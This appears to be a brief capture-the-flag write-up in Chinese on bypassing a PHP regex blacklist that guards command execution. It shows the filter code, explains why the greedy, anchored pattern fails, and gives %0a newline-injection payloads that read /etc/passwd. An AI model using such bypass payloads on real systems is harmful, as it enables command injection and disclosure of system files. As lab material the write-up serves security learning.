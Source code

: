 ```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias...|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|
disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|
popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|
typeset|ulimit|umask|unalias|unset|until|wait|
while|\[\x00-\x1FA-Z0-9!#-\\/;-@\\\[-\`|\~\x7F]+).\*$/', $json)) {
```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
## **%0a绕过**
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
```
